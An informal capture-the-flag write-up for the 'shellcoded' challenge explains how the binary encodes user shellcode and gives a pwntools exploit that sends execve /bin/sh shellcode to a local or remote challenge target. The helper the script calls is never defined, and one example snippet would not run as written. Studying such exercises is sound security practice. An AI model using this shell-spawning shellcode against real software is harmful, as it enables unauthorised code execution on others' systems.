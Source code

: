 <span style="color:red">`shellcode + encoded = shellcoded`</span> I guess this is what they meant cause this challenge was pretty straight forward all it does it takes shellcode as a user input and executes it. 

Not that hard right 😂 except it performs some encoding on shellcode and the encoding is, it iterates over the length of the shellcode and for every odd counter value it subtracts counter value from shellcode byte and for every even counter value it does exact opposite means instead of subtracting it adds the counter value to shellcode byte.

```python
for example :

shellcode = "ABCD"

for i in range(len(shellcode)):
    shellcode[i] = shellcode[i] - i if i & 1 else shellcode[i] + i
```

reversing the encoding algorithm isn't that hard but keep in mind that byte value ranges from <span style="color:red">`0 to 255`</span> or <span style="color:red">`0x0 to 0xff`</span> what I mean by that lets take a scenario the <span style="color:red">`syscall`</span> instruction has opcode of <span style="color:red">`\x0f\x05(0x0f 0x05)`</span> now either <span style="color:red">`0x0f`</span> or <span style="color:red">`0x05`</span> is going to be at the odd index right? so if your shellcodes length is greater than <span style="color:red">`0x0f`</span> boom 💥 now your byte will go into negative cause of your reversing algorithm and your shellcodes broken now

Then what we gonna do? just arrange the shellcode instruction accordingly and your are good to go

```python
def shellcode_generator():
    shellcode = asm('''
                    jmp main
                sys:
                    syscall
                main:
                    xor rdx, rdx
                    xor rsi, rsi
                    mov rbx,0x0068732f6e69622f
                    push rbx
                    push rsp
                    pop rdi
                    mov al, 59
                    je sys
            ''')

    shellcode = list(shellcode)
    return shellcode_filter(shellcode)

shellcode = shellcode_generator()

flag = True

if flag:
    p = process("./shellcoded")
else:
    p = remote("challenge.ctf.games",32383)

p.recv()
p.send(shellcode)
p.interactive()
```
